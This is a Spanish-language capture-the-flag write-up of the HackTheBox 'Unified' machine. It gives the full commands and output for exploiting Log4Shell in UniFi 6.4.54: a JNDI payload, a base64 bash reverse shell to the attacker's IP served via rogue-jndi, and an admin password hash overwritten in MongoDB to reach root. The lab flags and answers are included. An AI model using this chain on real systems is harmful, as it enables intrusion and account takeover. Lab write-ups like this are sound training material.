

Writeup Unified HackTheBox
Resolución de la máquina Unified de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.129.96.149
Nmap scan report for 10.129.96.149
PORT STATE SERVICE
22/tcp open ssh
6789/tcp open ibm-db2-admin
8080/tcp open http-proxy
8443/tcp open https-alt
Al abrir la web de el puerto 8443 podemos ver un login de UniFi versión 6.4.54

Enviamos cualquier cosa y al interceptar la petición vemos una estructura en json
Podemos explotar un log4j siguiendo los pasos, podemos inciando probando si es vulnerable
${jndi:ldap://10.10.14.10/whatever}
Esa estructura hara una peticion a ldap si es vulnerable, asi que nos ponemos en escucha
❯ sudo tcpdump -i tun0 port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
Enviamos el payload en el campo remember y enviamos la petición
Al enviarlo recibimos una petición en el puerto 389, hemos comprobado que es vulnerable
❯ sudo tcpdump -i tun0 port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:52:09.567754 IP 10.129.96.149.58560 > 10.10.14.10.ldap: Flags [S], seq 173732455, win 64240, options [mss 1340,sackOK,TS val 2580744273 ecr 0,nop,wscale 7], length 0
22:52:09.567853 IP 10.10.14.10.ldap > 10.129.96.149.58560: Flags [R.], seq 0, ack 173732456, win 0, length 0
Para preparar la explotación clonamos el repositorio rogue-jndi y cargamos los recursos
❯ git clone https://github.com/veracode-research/rogue-jndi
❯ cd rogue-jndi
rogue-jndi ❯ mvn package
Preparamos el comando en base64 que nos envie una reverse shell ya que sera nuestro payload
❯ echo 'bash -c bash -i >&/dev/tcp/10.10.14.10/443 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTAvNDQzIDA+JjEK
Ahora ejecutamos el archivo java pasandole el payload en command y nuestra ip como hostname
rogue-jndi ❯ java -jar target/RogueJndi-1.1.jar --command 'bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTAvNDQzIDA+JjEK}|{base64,-d}|{bash,-i}' --hostname 10.10.14.10
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.10:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.14.10:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.10:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.10:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.10:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.10:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.10:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.10:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Esta en escucha en el 1389/o=tomcat asi que enviamos el payload hacia esa dirección
${jndi:ldap://10.10.14.10:1389/o=tomcat}

Al hacer eso recibimos una shell como unifi en la máquina victima
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.96.149
script /dev/null -c bash
Script started, file is /dev/null
unifi@unified:/usr/lib/unifi$ id
uid=999(unifi) gid=999(unifi) groups=999(unifi)
unifi@unified:/usr/lib/unifi$ hostname -I
10.129.96.149 172.17.0.1 dead:beef::250:56ff:feb9:c860
unifi@unified:/usr/lib/unifi$
En el home de michael esta la flag y tenemos capacidad de lectura asi que leemos
unifi@unified:/home/michael$ ls -l
-rw-r--r-- 1 root 1000 33 Dec 30 2021 user.txt
unifi@unified:/home/michael$ cat user.txt
6ced1a6a89e666c0620cdb10262ba127
unifi@unified:/home/michael$
Mirando un poco los procesos podemos ver que mongo esta corriendo en el puerto 27117
unifi@unified:~$ ps faux | grep mongo
unifi 67 0.6 4.1 1104772 85448 ? Sl 20:11 0:04 \_ bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi@unified:~$
Conectandonos con mongo podemos ver el id y el hash de la contraseña de administrator
unifi@unified:~$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);" | grep administrator -A1 -B1
"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
"name" : "administrator",
"email" : "administrator@unified.htb",
"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
unifi@unified:~$
Podemos crear un hash con la misma estructura pero con la contraseña admin123!
❯ mkpasswd -m sha-512 admin123!
$6$5I6lPYLJ.ssUBm7n$HLwrn0IFjfmsaoi8sPXFg1oizJTybO/ZdGuB4YAiv2uDQDzCCM.eYwZjZpELNz2Ljvt1beNI7DJjTNTZuNx.J1
Ahora con mongo podemos actualizar la contrasña de administrator a admin123!
unifi@unified:~$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$5I6lPYLJ.ssUBm7n$HLwrn0IFjfmsaoi8sPXFg1oizJTybO/ZdGuB4YAiv2uDQDzCCM.eYwZjZpELNz2Ljvt1beNI7DJjTNTZuNx.J1"}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 0 })
unifi@unified:~$
Con esto realizado podemos ingresar como administrator con la contraseña admin123!
Al iniciar sesión conseguimos acceder al panel de administración de unifi
En settings podemos ver una pestaña site, donde podemos hacer modificaciones
Ahi podemos ver un apartado de autenticación donde nos comparten credenciales para ssh
Podemos conectarnos por ssh con la contraseña y leer la ultima flag
❯ ssh root@10.129.96.149
root@10.129.96.149's password: NotACrackablePassword4U2022
root@unified:~# id
uid=0(root) gid=0(root) groups=0(root)
root@unified:~# hostname -I
10.129.96.149 172.17.0.1 dead:beef::250:56ff:feb9:c860
root@unified:~# cat root.txt
e50bc93c75b634e4b272d2f771c33681
root@unified:~#
Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
Which are the first four open ports?
- 22,6789,8080,8443
What is the title of the software that is running running on port 8443?
- UniFi Network
What is the version of the software that is running?
- 6.4.54
What is the CVE for the identified vulnerability?
- CVE-2021-44228
What protocol does JNDI leverage in the injection?
- ldap
What tool do we use to intercept the traffic, indicating the attack was successful?
- tcpdump
What port do we need to inspect intercepted traffic for?
- 389
What port is the MongoDB service running on?
- 27117
What is the default database name for UniFi applications?
- ace
What is the function we use to enumerate users within the database in MongoDB?
- db.admin.find()
What is the function we use to update users within the database in MongoDB?
- db.admin.update()
What is the password for the root user?
- NotACrackablePassword4U2022
Submit user flag
- 6ced1a6a89e666c0620cdb10262ba127
Submit root flag
- e50bc93c75b634e4b272d2f771c33681